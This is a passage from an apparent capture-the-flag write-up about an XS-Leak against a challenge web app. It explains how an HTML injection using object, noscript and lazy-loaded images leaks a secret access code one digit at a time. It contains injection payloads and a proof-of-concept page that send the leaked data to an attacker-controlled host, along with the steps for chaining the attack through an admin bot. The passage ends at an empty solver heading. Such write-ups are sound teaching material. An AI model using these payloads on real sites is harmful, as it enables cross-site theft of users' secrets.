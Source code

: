Referencing into the number 7 that we know if the object return 404 it will render the fallback tag, and for the fallback im trying to use loading lazy but it seems to be not work in my exploit, therefore im changing my approach using custom css and tag
But using div tag still not work because it immediately rendered into the dom, and i found <noscript>
```html
<object
type="image/png"
data="/hidden-access?access_code=a"
width="250"
height="200">
<style>
   noscript{
       background-image: url({HOST});
   }
</style>
<noscript></noscript>
</object>
```


So we can use this approach for our exploit, and note: the injection will be negative
If the leak reach into our server that means the access code is wrong
Since the hidden_access is always digit we can create an array consist of digits
If it reach our server, we remove the value from the array until the array size is 1

NOTE: Since there was send-message that will redirecting to custom-message maybe the intended way is csrf, but we just can use window.open(‘custom-message’) into our malicious website 
```html
<!DOCTYPE html>
   <html>
   <head>
     <title>XS Leak PoC</title>
   </head>
   <body>
     <h1>XS-Leak via object + background-image</h1>
     <script>
     (async() =>{{
   setTimeout(() => {{
   window.location.reload()
   }}, 5000)
   const prefix = await fetch('/prefix').then(res => res.text());
     let arr = []
     for(let x = 0; x<= 9; x++){{
       exploit = `<object data="/hidden-access?access_code=${{prefix}}${{x}}" type="text/html">
       <img src="{HOST}/leak?id=${{x}}" loading="lazy">
               </object>`
               arr[x] = window.open("http://under-development-web:5578/customer-message?name=a&message="+encodeURIComponent(exploit));
               setTimeout(() => {{
               arr[arr.length - x].close()
               }}, 1000+(x*100))
       }}
           }})()
       </script>
   </body>
   </html>
```

We need to close the window one by one so all window will show the image if not exists
### CHAINING THE VULN
Register and login -> create exploit on website -> tell bot to visit our website -> gain access_code -> PROFIT

### SOLVER